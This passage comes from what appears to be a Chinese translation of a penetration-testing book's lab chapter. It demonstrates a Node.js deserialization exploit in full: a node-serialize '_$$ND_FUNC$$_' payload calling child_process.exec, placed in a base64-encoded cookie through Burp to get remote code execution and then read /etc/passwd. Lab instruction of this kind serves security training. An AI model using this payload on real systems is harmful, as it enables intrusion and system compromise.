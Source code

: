 ![](../images/chapter_3/3-21.png)

如前所述，每种语言都有其独特的地方，NodeJS 也不例外。在 Node/Express/Pug 中，你无法直接写入 Web 目录，但是可以像在 PHP 中一样访问它。必须有一个指向文件夹的指定路径，该文件夹既可写又可访问到公共网络。

**创建有效 payload**

* 在开始之前，请记住实验中的所有这些 payload 都可以从这里复制粘贴：http://bit.ly/2qBDrFo
* 获取原始 payload 并修改你的 shell 执行“'DO SYSTEM COMMANDS HERE”

```javascript
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) {console.log(stdout)});}"}
```
 
* 例：
```javascript
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
 
* 由于原始 Cookie 已编码，我们必须通过 Burp Decoder/Encoder 对我们的 payload 进行 base64编码
    *示例 payload：eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxd
* 注销，打开Burp拦截，并转发/（home）请求
    * 将 cookie 修改为新创建的 Base64 payload
* 转发流量，因为公用文件夹是/的路由，你应该能够打开浏览器并转到 http://chat:3000/hacked.txt
* 你现在可以进行远程执行代码！随意对此系统进行后期利用。首先尝试访问 `/etc/passwd`。

![](../images/chapter_3/3-22.png)
